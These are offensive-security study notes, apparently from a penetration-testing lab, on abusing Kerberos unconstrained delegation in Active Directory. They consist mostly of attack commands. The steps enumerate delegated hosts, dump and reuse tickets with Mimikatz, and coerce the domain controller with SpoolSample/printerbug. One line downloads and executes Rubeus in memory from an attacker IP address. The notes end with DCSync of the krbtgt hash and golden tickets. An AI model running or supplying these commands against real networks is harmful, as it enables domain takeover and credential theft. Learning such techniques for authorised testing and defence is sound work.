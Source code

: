 - Allows a service to authenticate on a user's behalf
- **Enumerate with BloodHound**

### Unconstrained Delegation (2000)
    - allows service to perform authentication on behalf of the user to anything in the domain
    - **allows compromise of any user who authenticates to the service (if we control it)**
        - **combine with PrinterBug to compromise the DC**
    - user requests TGT w/ Forward Flag set, and embeds this within the TGS they request. The service can then forward the TGT on their behalf.
    - Vulnerability - if we compromise a service, we can steal any user's identity who authenticates to us.
        - **requires user interaction/auth request - but can force DC w/ printerbug**
    - **If printerbug doesn't work, try monitoring for user auth tickets**

    - Computers:
        - Get-DomainComputer -Unconstrained
            - note 'name' and the TRUSTED_FOR_DELEGATION useraccountcontrol flag
        - can also apply to service accounts
        - Or:  Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties trustedfordelegation,serviceprincipalname,description
    - Users:
        Get-DomainUser -ldapfilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
        - Or:  Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties trustedfordelegation,serviceprincipalname,description
        - Exploiting user account:  https://exploit.ph/user-constrained-delegation.html

    - To Abuse - Basic Example:
        - first compromise the computer or service account - access via lateral movement or application compromise
        - elevate and access user tickets w/ Mimikatz (once target user has authenticated to web app, etc.):
            - privilege::debug
            - sekurlsa::tickets
                - look for TGT w/ forwardable flag
            - sekurlsa::tickets /export           //save tickets to disk
            - Use the stolen TGT:
                - kerberos::ptt [0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi
                - C:\Tools\SysinternalsSuite\PsExec.exe \\cdc01 cmd

    - *Better method w/ Rubeus & SpoolSample - works on DC:
        1. Check spooler running on DC:
            - dir \\cdc01\pipe\spoolss
            - Or:  rpcdump.py <DCIP> | grep -A 6 "spoolsv"
            - Or (after editing IP):  (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/SpoolerScan.ps1') | IEX
            - **if can't access, use Rubeus to inject a different ticket & check again!
        2. Check & Listen for tickets:
            - Rubeus.exe monitor /interval:5 /nowrap [/filteruser:CDC01$]
            - in-memory:  $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.121/Rubeus.exe'); $assem = [System.Reflection.Assembly]::Load($data); [Rubeus.Program]::Main("monitor /interval:5".Split())
            - *or use the Rubeus DLL
        3. Trigger DC to auth:
            - SpoolSample.exe CDC01 APPSRV01
            - Or:  python3 printerbug.py prod.corp1.com/APPSRV01\$@CDC01.prod.corp1.com -hashes aad3b435b51404eeaad3b435b51404ee:482b2b2b64ea576.... attacker.prod.corp1.com
        4. Inject ticket into memory:
            - Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo...
        - With DC machine account, can't perform lateral mvmt, but can do dcsync and dump any user's hash due to domain replication permissions
            - mimikatz.exe
            - lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
                - then make golden ticket and access anything
                - or: dump domain administrator hash & PTH w/ wmiexec onto DC
